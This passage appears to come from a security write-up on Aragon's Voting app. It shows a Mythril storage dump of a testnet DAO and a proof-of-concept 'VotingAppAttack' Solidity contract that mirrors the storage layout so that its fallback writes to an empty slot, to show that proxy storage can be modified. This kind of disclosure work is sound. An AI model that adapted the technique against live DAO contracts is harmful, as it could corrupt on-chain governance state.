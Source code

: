 The actual values of the `Voting` contract currently for the Muzi5 DAO (http://aragon.aragonpm.com/#/muzi5.aragonid.eth/) are listed below. Storage slot 0x68 holds the dynamic `votes` array and there are currently 5 votes listed in the DAO.  

```
# myth --rpc infura-rinkeby  --storage 99,10 -a 0xc35b9cb958E59DEF2630C8844ef8ca8bc4473805
0x63: 0x0000000000000000000000000000000000000000000000000000000000000000
0x64: 0x000000000000000000000000ec361ddaf54731e046fa22c73c2eb0e7549fdb4e
0x65: 0x00000000000000000000000000000000000000000000000006f05b59d3b20000
0x66: 0x0000000000000000000000000000000000000000000000000214e8348c4f0000
0x67: 0x0000000000000000000000000000000000000000000000000000000000015180
0x68: 0x0000000000000000000000000000000000000000000000000000000000000005
0x69: 0x0000000000000000000000000000000000000000000000000000000000000000
...
```

The `VotingAppAttack` contract listed below is used to confirm that storage can be modified in `Voting` contract. It resembles the storage structure from the`Voting` contract and the fallback function attempts to write to a new storage slot and sets `write_to_an_empty_slot = 1337` right after the `votes` array. 

```Solidity
//https://rinkeby.etherscan.io/address/0x3a14daf20d8e01f4bd8f6f62e6b1fb96e4af747b
contract VotingAppAttack {
    
    address public kernel;
    bytes32 public appId;
    address internal pinnedCode; // used by Proxy Pinned
    uint256 internal initializationBlock; // used by Initializable
    uint256[95] private storageOffset; // forces App storage to start at after 100 slots
    uint256 private offset;
    
    address public token;
    uint256 public supportRequiredPct;
    uint256 public minAcceptQuorumPct;
    uint64 public voteTime;
    Vote[] votes;

    enum VoterState { Absent, Yea, Nay }
    struct Vote {
        address creator;
        uint64 startDate;
        uint256 snapshotBlock;
        uint256 minAcceptQuorumPct;
        uint256 yea;
        uint256 nay;
        uint256 totalVoters;
        string metadata;
        bytes executionScript;
        bool executed;
        mapping (address => VoterState) voters;
    }

    uint256 write_to_an_empty_slot; 
    
    function () {
        write_to_an_empty_slot = 1337;
    }
}
```
